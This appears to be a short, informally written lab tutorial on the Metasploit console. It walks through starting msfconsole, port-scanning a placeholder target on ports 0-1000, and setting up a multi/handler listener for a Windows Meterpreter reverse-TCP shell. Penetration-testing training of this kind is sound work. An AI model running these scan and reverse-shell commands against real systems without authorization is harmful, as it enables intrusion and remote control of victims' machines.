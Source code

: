 ### `msfconsole`

### Step 01. Verify that the tool is installed
  1. First switch to root (the tool is sync with your permisiion lvl)
  ```
  # To start the tool 
  msfconsole
  ```

* Now i can still move in through the dir's
```
show auxiliary
```{{exec}}

```
use auxiliary/scanner/portscan/tcp
```{{exec}}

1.	“show auxiliary” - showing all the auxilliaries avaible
2.	“use auxiliary/scanner/portscan/tcp” =output=> msf6 auxiliary(scanner/portscan/tcp):
4)"set PORTS 0-1000" (telling the tool wich ports i want it to scan) 
1.	“set RHOSTS <target ip>”
2.	“run”
3.	"use exploit/multi/handler" (changing my exploit to multi handler)
4.	“set payload windows/meterpreter/reverse_tcp” (changing the payload to meterpreter)
5.	"set LHOST <my ip>
6.	“run” 
